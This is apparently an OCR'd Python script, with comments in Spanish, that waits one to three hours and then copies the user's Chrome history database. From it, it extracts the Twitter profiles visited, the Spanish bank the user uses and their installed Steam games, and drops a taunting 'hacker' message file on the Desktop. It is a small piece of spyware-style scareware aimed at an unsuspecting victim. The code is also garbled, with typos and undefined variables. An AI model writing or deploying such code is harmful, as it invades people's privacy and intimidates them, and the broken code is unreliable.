 # Check_history_of_Google

import os

from pathlib import Path

from shutil import copyfile

from time import sleep

from random import randrange

import sqlite3

import re

import glob


HACKER_FILE_NAME = "PARA TI.txt"



def get_user_path():
    return "{}/".format(Path.home())



def check_steam_games(hacker_file):

    steam_path = "C:\\Program Files (x86)\\Steam\\steamapps\\common\\*"
    
    games = []
    
    games_paths = glob.glob(steam_path)
    
    games_paths.sort(key=len, reverse=True)
    
    for game in games:
    
        games.append(game_path.split("\\")[-1])
        
    hacker_file.write("He visto que ultimamente has estado jugando a {}".format(",".join(games[:3])))
    


def delay_action():

    n_hours = randrange(1, 4)
    
   
    print("Durmiendo {} horas".format(n_hours))
    
    sleep(n_hours * 60 * 60)
    


def create_hacker_file(user_path):

    hacker_file = open(user_path + "Desktop/" + HACKER_FILE_NAME, "w")
    
    hacker_file.write("Bon dia\n")
    
    return hacker_file
    


def get_chrome_history(user_path):

    urls = None
    while not urls:
        try:
            history_path = user_path + "/AppData/Local/Google/Chrome/User Data/Default/History"
            temp_history - history_path + "temp"
            copyfile(history_path, temp_history)
            connection = sqlite3.connect(temp_history)
            cursor = connection.cursor()
            cursor.execute("SELECT title, last_visit_time, utl FROM urls ORDER BY last_visit_time DESC")
            urls = cursor.fetchall()
            connection.close()
            print(urls)
            return urls
        except sqlite3.OperationalError:
            print("Historial inaccesible, intentando en 3 segundos")
            sleep(3)



def check_twitter_profiles(hacker_file, chrome_history):

    profiles_visited = []
    for item in chrome_history:
        print(item[2])
        results = re.findall("https://twitter.com/([A-Za-z0-9]+)$", item[2])
        if results and results[0] not in ["notifications", "home"]:
            profiles_visited.append(results[0])
        hacker_file.write("He visto que has estado  husmeando en los perfiles de {}...\n".format(",".join(profiles_visited)))



def check_bank_account(hacker_file, chrome_history):

    his_bank = None
    banks = ["BBVA", "Santander", "Caixa Bank", "Bankia", "Sabadell", "Kutxabank", "Abanca", "Unicaja Banco", "Ibercaja"]
    for item in chrome_history:
        for b in banks:
            if b.lower() in item[0].lower():
                his_bank = b
                break
        if his_bank:
            break
    hacker_file.write("Ademas veo que guardas tu dinero aqui {}\n".format(his_bank))
    print("his_bank")



def main():

    # Wait 1-3 hours
    delay_action()
    # Calculate the field to Windows's user
    user_path = get_user_path()
    # Take the history of Chrome
    chrome_history = get_chrome_history(user_path)
    # Create a field in Desktop
    hacker_file = create_hacker_file(user_path)
    # Twitter accounts
    check_twitter_profiles(hacker_file, chrome_history)
    # Bank account
    check_bank_account(hacker_file, chrome_history)
    # Steam games
    check_steam_games(hacker_file)


if __name__ == "__main__":

    main()
